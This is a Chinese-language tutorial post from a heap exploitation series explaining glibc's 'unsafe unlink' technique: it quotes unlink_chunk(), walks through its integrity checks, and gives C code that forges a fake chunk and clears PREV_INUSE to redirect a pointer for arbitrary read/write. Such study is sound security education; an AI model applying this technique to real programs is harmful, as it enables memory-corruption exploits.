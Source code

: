 ```yaml
---
title: "Unsafe Unlink"
date: 2024-12-24
series: ["Heap Exploitation"]
series_order: 13
---
```



|||
|-|-|
|版本|latest|
|效果|使目標ptr從指向UAF chunk改為ptr-0x18|

unlink的目的為把空閒的heap從雙向陣列中拿出來，這幾種狀況會觸發:  

1. malloc()
    - 當在剛好大小符合的 large chunk 中取出 chunk 時
    - 當從比請求大小大的 bin 中取出 chunk 時
2. free(), malloc_consolidate()
    - 合併前後freed chunk
3. relloc()
    - 合併前向freed chunk

## unlink_chunk()

```c
unlink_chunk (mstate av, mchunkptr p)
{
  if (chunksize (p) != prev_size (next_chunk (p)))
    malloc_printerr ("corrupted size vs. prev_size");

  mchunkptr fd = p->fd;
  mchunkptr bk = p->bk;

  if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
    malloc_printerr ("corrupted double-linked list");

  fd->bk = bk;
  bk->fd = fd;
  if (!in_smallbin_range (chunksize_nomask (p)) && p->fd_nextsize != NULL)
    {
      if (p->fd_nextsize->bk_nextsize != p
      || p->bk_nextsize->fd_nextsize != p)
    malloc_printerr ("corrupted double-linked list (not small)");

      if (fd->fd_nextsize == NULL)
    {
      if (p->fd_nextsize == p)
        fd->fd_nextsize = fd->bk_nextsize = fd;
      else
        {
          fd->fd_nextsize = p->fd_nextsize;
          fd->bk_nextsize = p->bk_nextsize;
          p->fd_nextsize->bk_nextsize = fd;
          p->bk_nextsize->fd_nextsize = fd;
        }
    }
      else
    {
      p->fd_nextsize->bk_nextsize = p->bk_nextsize;
      p->bk_nextsize->fd_nextsize = p->fd_nextsize;
    }
    }
}
```

### 目的

unsafe unlink的目標為利用這段unlink_chunk()中的  

```c
fd->bk = bk;
bk->fd = fd;
```

可以達成任意讀寫

### 三個check  

unlink_chunk()中有三段檢查:

1. 檢查p->fd->bk == p &&  p->bk->fd == p

    ```c
    if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
        malloc_printerr ("corrupted double-linked list");
    ```

2. 檢查當前chunksize是否為下一個chunk的prev_size

    ```c
    if (chunksize (p) != prev_size (next_chunk (p)))
        malloc_printerr ("corrupted size vs. prev_size");
    ```

3. 檢查非smallbin的chunk，`fd_nextsize`和`bk_nextsize`的完整性

    ```c
    if (!in_smallbin_range (chunksize_nomask (p)) && p->fd_nextsize != NULL)
        if (p->fd_nextsize->bk_nextsize != p|| p->bk_nextsize->fd_nextsize != p)
            malloc_printerr ("corrupted double-linked list (not small)");
    ```

## 初始化

我們希望這些chunk的大小會被放到unsorted bin，而不是fastbin或tcache

```c
uint64_t *ptr0, *ptr1;
ptr0 = (uint64_t *)malloc(0x410);
ptr1 = (uint64_t *)malloc(0x410);

target = ptr0;

printf("chunk_1: %p chunk_2: %p\n", ptr0, ptr1);
printf("target: %p\n\n", &target);
```

這是最初始chunk的狀態  
![alt text](image-1.png)

## bypass第一個check

現在要做的是，偽造一個fake_chunk在chunk_1 + 0x10  
接著把fake_chunk->fd 設為target - 0x18  
把fake_chunk->bk 設為target - 0x10  

```c
target[2] = (uint64_t)(&target - 0x3);
target[3] = (uint64_t)(&target - 0x2);  
```

![alt text](image-2.png)  
然後可以bypass第一個check，因為`x->bk` 會相等於`x[3]`，`x->fd`會等同於`x[2]`
![alt text](image-3.png)

## bypass第二個和第三個check

```c
/* fake a chunk at chunk_1 + 0x10 */
target[0] = 0x0;     // fake_chunk prev size
target[1] = 0x410;   // fake_chunk size

/* unset "PREV_INUSE", faking chunk_1 as freed */
ptr1[-2] = 0x410;    // chunk_2 prev size
ptr1[-1] = 0x420;    // chunk_2 size (can be done with a bug like a heap overflow)
target[4] = 0x0;     // fd_nextsize
```

![alt text](image-6.png)

## free

成功觸發了unlink，執行`BK->fd = FD`，成功達成目標
![alt text](image-5.png)

- [reference](https://blog.csdn.net/m0_64195960/article/details/125371765)
